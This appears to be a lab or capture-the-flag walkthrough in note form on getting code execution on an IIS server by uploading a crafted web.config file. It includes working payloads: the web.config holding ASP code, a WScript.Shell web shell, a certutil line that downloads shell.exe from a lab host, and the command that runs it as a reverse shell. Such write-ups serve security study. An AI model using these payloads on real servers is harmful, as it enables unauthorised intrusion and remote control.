 ## Used web.config RCE exploit
https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/
Create web.config file
```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

Uploaded file to server
![](../Attachments/Pasted%20image%2020210519201623.png)
![](../Attachments/Pasted%20image%2020210519201634.png)

File uploads to /UploadedFiles/ directory found from GoBuster
![](../Attachments/Pasted%20image%2020210519201750.png)

Verified that it works by showing a "3" at that location
![](../Attachments/Pasted%20image%2020210519201809.png)

Set upload request to Burp to intercept request and sent to repeater
![](../Attachments/Pasted%20image%2020210519201914.png)

Updated the ASP code to a web shell code.
```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Page shows whoami response in the source code as comments
![](../Attachments/Pasted%20image%2020210519202039.png)

Adjusted code to upload Reverse Shell
```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c certutil -urlcache -f http://10.10.14.24/shell.exe C:\Users\merlin\Desktop\shell.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Shell successfully uploaded
![](../Attachments/Pasted%20image%2020210519202637.png)

Updated ASP code to run Reverse Shell
```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c C:\Users\merlin\Desktop\shell.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Shell Gained as Merlin
![](../Attachments/Pasted%20image%2020210519202846.png)